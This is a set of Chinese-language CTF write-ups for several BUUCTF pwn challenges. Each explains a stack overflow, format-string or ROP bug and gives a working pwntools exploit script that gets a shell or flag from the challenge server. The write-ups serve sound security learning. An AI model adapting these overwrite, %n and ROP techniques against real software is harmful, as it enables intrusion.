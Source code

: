 # BUUCTF[PWN]

## 题目：warmup_csaw_2016

1. 地址：[warmup_csaw_2016](https://buuoj.cn/challenges#warmup_csaw_2016)
2. ida打开，进main函数：![image-20240507204853587](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405072048895.png)
3. gets函数的栈溢出：给出了sub_40060D函数的地址![image-20240507204928362](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405072049397.png)
4. 直接，溢出到sub_40060D的地址即可：

``````python
from pwn import *
 
p = remote('node5.buuoj.cn',28462)
payload = b'a'*(64+8)+p64(0x40060d)
p.sendline(payload)
p.interactive()
``````



## 题目：pwn1_sctf_2016

1. 地址：[pwn1_sctf_2016](https://buuoj.cn/challenges#pwn1_sctf_2016)
2. ida打开进入vuln函数：![image-20240507213015640](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405072130707.png)
3. 先找后门函数：get_flag![image-20240507213041278](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405072130306.png)
4. 虽然说有fgets函数，但是限制了长度为32，但是看栈中 **返回地址距离** s有 **0x3c+4** ,不足以溢出到返回值：![image-20240507213231797](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405072132847.png)
5. 重新来看一下vuln函数的逻辑找突破口：可以将输入的 **I** 替换 为 **you** ，相当于将一位变成了三位，再计算一下 **0x3c+4=3*21+1** ，所以我们要输入21个I外加另外任意一个字符，即可再字符串替换后溢出到返回值的位置。![image-20240507213936907](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405072139986.png)
6. 攻击脚本如下：![image-20240507214247106](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405072142145.png)

``````python
from pwn import *
 
p = remote('node5.buuoj.cn',25670)

payload = b'I'*(21)+b'a'+p64(0x8048F0D)
p.sendline(payload)
p.interactive()

``````

## 题目：jarvisoj_level0

1. 地址：[jarvisoj_level0](https://buuoj.cn/challenges#jarvisoj_level0)
2. 依旧ida打开，进入到vulnerable_function函数：buf只有128，但是输入有0x200，必有溢出。![image-20240507214757431](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405072147466.png)
3. 找到后门函数：callsystem![image-20240507214845844](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405072148877.png)
4. 栈中的偏移为 **128+8**：![image-20240507214927684](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405072149720.png)
5. 解题脚本：![image-20240507215000428](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405072150461.png)

``````python
from pwn import *
 
p = remote('node5.buuoj.cn',27519)

payload = b'I'*(128+8)+p64(0x400596)
p.sendline(payload)
p.interactive()

``````



## 题目：get_started_3dsctf_2016

1. 进main函数：程序提供了后门溢出函数gets，距离返回值只有56。![image-20240510222953507](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405102229577.png)

![image-20240510223005248](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405102230297.png)

2. 看后门函数get_flag：对输入进行一个判断，在栈上可以看到数据的位置，在栈溢出时可以直接写道栈上。![image-20240510223042459](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405102230511.png)

![image-20240510223104704](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405102231738.png)

3. 脚本如下：

``````python
from pwn import *
 
p = remote('node5.buuoj.cn',27248)

door=0x80489A0
return_exit=0x804E6A0

payload = b'a'*(56)+p32(door)+p32(return_exit)+p32(0x308CD64F)+p32(0x195719D1)

	
p.sendline(payload)
p.interactive()

``````

4. 题目中get_flag函数退出时需要提供一个 **合适的返回值** (exit函数的地址)，保证程序正常退出，否则get_flag函数无法正常退出，输入在使用putchar输入在 **缓存区中的flag** 会因为程序的异常崩溃无法输出到终端上。

![image-20240510223710607](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405102237677.png)

## bjdctf_2020_babystack

1. 进入main函数：简单的栈溢出，让我们输入数据的长度，当然越大越好。![image-20240510231719408](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405102317460.png)
2. 再看一眼main的栈，和后门函数：![image-20240510231809938](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405102318993.png)

![image-20240510231923575](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405102319218.png)

3. 攻击脚本：

``````python
from pwn import *
 
p = remote('node5.buuoj.cn',27064)

p.recvuntil(b"[+]Please input the length of your name:")
p.sendline(b'50')

door=0x4006E6

p.recvuntil(b"What's u name?")

payload = b'a'*(12+12)+p64(door+1)

	
p.sendline(payload)
p.interactive()

``````

## [第五空间2019 决赛]PWN5

1. 进入main函数：read函数指定了读取的大小，无法进行栈溢出，但是观察到 **printf(buf)**，存在格式化字符串漏洞。![image-20240511105854807](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405111058884.png)
2. 利用格式化字符串可以阿将 **dword_804C044**处的值进行修改，改为我们想要的输入的值，来达到使if条件判断通过的目的，**dword_804C044**的地址为 **0804C044** ,使用%n修改指定地址处的值时，需要确定我们写入数据的偏移，这样使用%n才能指定到相应的地址。

* 先使用 **AAAA%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p **来显示输入的数据的偏移：![image-20240511110633456](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405111106504.png)

* 可以看到输入的字符串偏移为 **10**，所以输入地址**0804C044**后需要将栈中偏移为10的数值(0804C044)所指向的地址处的值进行修改。

* 脚本如下,最后输入的passwd会进入atoi函数，这函数将 **字符串转** 化为对应的 **数字**：![image-20240511111115233](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405111111311.png)

  ```python
  from pwn import *
  
  p = remote('node5.buuoj.cn',27105)
  p.recvuntil(b"your name:")
  
  payload=p32(0x804c044)+p32(0x804c045)+p32(0x804c046)+p32(0x804c047)+b'%10$n%11$n%12$n%13$n'
  p.sendline(payload)
  
  p.recvuntil(b"your passwd:")
  
  payload = str(0x10101010)
  p.sendline(payload.encode())
  p.interactive()
  ```

  ![image-20240511111140609](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405111111662.png)

## [HarekazeCTF2019]baby_rop

1. checksec检查后，时64位程序，ida打开进入main函数： **__isoc99_scanf**函数使用 **%s**，存在栈溢出 。![image-20240511210554361](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405112105415.png)
2. 没有现成的system("/bin/sh")，需要手动构造：存在 **system函数** 和 **/bin/sh** 字符串，直接使用system给其传参即可，但是注意这是64位的程序， **前6个参数**传递依靠寄存器。![image-20240511210719114](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405112107161.png)

![image-20240511210730969](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405112107017.png)

![image-20240511210933208](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405112109284.png)

3. system函数需要一个参数，直接使用rdi进行传参，但是栈溢出的main函数只有一个ret，所以需要找到程序中的 **pop rdi;ret**指令的地址，直接使用 **ROPgadget --binary babyrop --only "pop|ret"**指令查找程序中可能出现的指令组合：![image-20240511211205218](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405112112277.png)s

4. 可以看到在 **0x400683**指令处存在 **pop rdi ; ret**组合（即先执行pop rdi 再执行ret），这使得可以继续改变rip的值，跳转到后门函数system的地址处。

5. 脚本如下：

   ``````python
   from pwn import *
    
   p = remote('node5.buuoj.cn',29873)
   #p.recvuntil(b"What's your name?")
   sh_addr=0x601048
   rdi_addr=0x400683
   door=0x400490
   ret=0x400479
   payload = b'a'*(16+8)+p64(rdi_addr)+p64(sh_addr)+p64(door)	
   p.sendline(payload)
   p.interactive()
   
   ``````

6. 拿到shell后没有看到flag，使用 **find -name flag** 查找flag文件的路径，再显示：![image-20240511211648974](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405112116055.png)



7. 币了吧@~@